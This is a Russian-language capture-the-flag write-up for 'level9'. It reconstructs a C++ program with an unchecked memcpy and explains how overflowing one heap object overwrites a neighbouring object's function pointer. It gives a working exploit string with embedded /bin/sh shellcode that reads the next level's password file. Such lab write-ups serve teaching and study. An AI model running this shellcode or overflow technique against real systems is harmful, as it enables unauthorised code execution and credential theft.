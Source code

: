 ## level9
Данная программа написана на `cpp` и использует ООP.  Интересно заметить, что при вызове методов класса, адрес памяти, занимаемой объектом, передается наверху стека (подобно параметру `self` в Питоне). Сами же объекты содержат лишь атрибуты, расположенные по порядку, как внутри `struct`. 

Имея это в виду, исходный код мог выглядеть так:
```cpp
#include <string.h>
#include <unistd.h>

class N {
public:
	typedef  int (N::*MemFun)(const N&) const;

	MemFun	func; 				// from 0-4 bytes
	char	annotation[100];	// from 4-104 bytes
	int 	var;				// from 104-108 bytes

public:
	N(int var) : var(var) {
		func = &N::operator+;
	}

	void *setAnnotation(const char* annotation) {
		size_t len = strlen(annotation);
		return memcpy(this->annotation, annotation, len);
	}

	virtual int operator+(const N& other) const {
		return var + other.var;
	}

	virtual int operator-(const N& other) const {
		return var - other.var;
	}
};

int main(int argc, char** argv, char** envp) {
	if (argc > 1) {
		auto n1 = new N(5);
		auto n2 = new N(6);

    	n1->setAnnotation(argv[1]);
    	return (n2->*(n2->func))(*n1);
	}
	_exit(1);
}
```

Наш план заключается в том, чтобы записать shellcode в `n1->annotation`. Мы также переполним буфер таким образом, чтобы добраться до области памяти, принадлежащей `*n2`, и записать указатель на shellcode в переменную `n2->func`. В результате, вместо  `n2 + n1`, в конце программы будем выполнен shellcode. 

Найдем адреса выделенных объектов `n1` и `n2` с помощью `ltrace`:

```sh
$ ltrace ./level9 ""
...
_Znwj(108, 0xbffff7f4, 0xbffff800, 0xb7d79e55, 0xb7fed280)                  = 0x804a008
_Znwj(108, 5, 0xbffff800, 0xb7d79e55, 0xb7fed280)                           = 0x804a078
...
```

Атрибут `func` занимает 4 байта, а значит, `n1->annotation` начинается с `0x804a008 + 4 = 0x804a00c`. Следовательно, у нас имеется `0x804a078 - 0x804a00c = 108` байтов между началом `n1->annotation` и `n2->func`.

Нужно отметить, что значение `&N::operator+` , записанное в `n2->func`, не является обычным указателем на функцию. Метод `N::operator+` — виртуальный, поэтому  `n2->func` указывает на [virtual function table](https://en.wikipedia.org/wiki/Virtual_method_table), в которой уже содержатся адреса самих методов класса. Это нам подтверждает и дизассемблер, который осуществляет двойное разыменование в строчках `0x08048680-0x08048682`:

```sh
$ gdb ./level9
(gdb) disas main
...
0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
...
```

Поняв это, мы можем пройти уровень:
```sh
$ echo "cd ..; cat bonus0/.pass" | ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68" + "a"*52 + "\x0c\xa0\x04\x08"')
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

Для лучшего понимания разберем эксплойт-строку по частям:
* `\x10\xa0\x04\x08` — адрес начала shellcode-а, равный `0x804a00c + 4 = 0x804a010`
* 52 байта shellcode-а, взятого [отсюда](http://shell-storm.org/shellcode/files/shellcode-811.php)
* `\x0c\xa0\x04\x08` — адрес начала буфера
